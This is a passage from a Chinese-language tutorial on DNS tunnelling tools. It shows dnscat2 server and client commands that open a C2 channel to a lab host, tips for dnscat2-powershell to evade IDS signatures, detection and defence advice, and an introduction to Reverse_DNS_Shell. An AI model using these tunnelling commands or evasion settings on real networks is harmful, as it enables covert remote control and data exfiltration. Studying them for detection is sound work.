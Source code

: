 ```
ruby ./dnscat2.rb
```

[![](https://p5.ssl.qhimg.com/t013c4d8a49008b4b7e.png)](https://p5.ssl.qhimg.com/t013c4d8a49008b4b7e.png)<br>
2）Client

```
./dnscat --dns server=192.168.30.129,port=53 --secret=a152c1cc946358825617f5cbcd3dce44
```

[![](https://p3.ssl.qhimg.com/t01fc95d5b630092ca2.png)](https://p3.ssl.qhimg.com/t01fc95d5b630092ca2.png)

3）Server 可以看到连接建立

[![](https://p2.ssl.qhimg.com/t01983e5007267e8b7a.png)](https://p2.ssl.qhimg.com/t01983e5007267e8b7a.png)

4）通信数据包特征

[![](https://p0.ssl.qhimg.com/t019905259051eae0e8.png)](https://p0.ssl.qhimg.com/t019905259051eae0e8.png)

五、检测与防御

检测：<br>
1、上文提到默认的 dnscat 查询中包含了dnscat 字符串，这个可以作为防火墙和入侵检测的特征<br>
2、检查出站 DNS 查询的查询长度，监视来自特定主机的DNS 查询的频率，以及检查特定的不常见查询类型是一些示例。<br>
3、记录 DNS 查询日志，通过频率、长度、类型监控异常日志<br>
防御：防火墙上限制只允许与受信任的 DNS 服务器通信

<a name="dnscat2-powershell"></a>**dnscat2-powershell**

> [https://github.com/lukebaggett/dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell)

[![](https://p2.ssl.qhimg.com/t0152302e59a972347d.png)](https://p2.ssl.qhimg.com/t0152302e59a972347d.png)

Dnscat2-powershell可通过通用签名避免检测:
- 1、可以在客户端使用 –Delay 和–MaxRandomDelay 与 Start-Dnscat2 发送的每个请求之间添加静态或随机延迟；可以使用查询的精确最大长度基于查询来编写签名。如果您想要稍微隐蔽一些，可以使用-MaxPacketSize参数缩短最大请求大小。
- 2、许多 DNS 隧道将使用 TXT，CNAME 或 MX 查询，因为它们的响应处理简单，响应时间长。这些不是最常见的查询类型，因此IDS 可能会警告这些查询的频率很高。故而可以构造基于：A 和 AAAA查询（ Start-Dnscat2 的- LookupTypes 参数可用于将有效查询类型列表传递给客户端）
以下提供构造避免检测及提高传输速度的一个演示视频，若无法打开，可见文末下载链接

> [https://www.youtube.com/watch?v=VrA8cyrssos](https://www.youtube.com/watch?v=VrA8cyrssos)

<a name="Reverse_DNS_Shell"></a>**Reverse_DNS_Shell**

使用 DNS 作为 C2 通道的 Python 反向 Shell。

> [https://github.com/ahhh/Reverse_DNS_Shell](https://github.com/ahhh/Reverse_DNS_Shell)

一、要求
- dnslib
- dnspython
- pycrypto
KaliLinux 默认 python 环境为 2.7 以上（默认已安装好），以上三个包需要使用pip 进行安装。
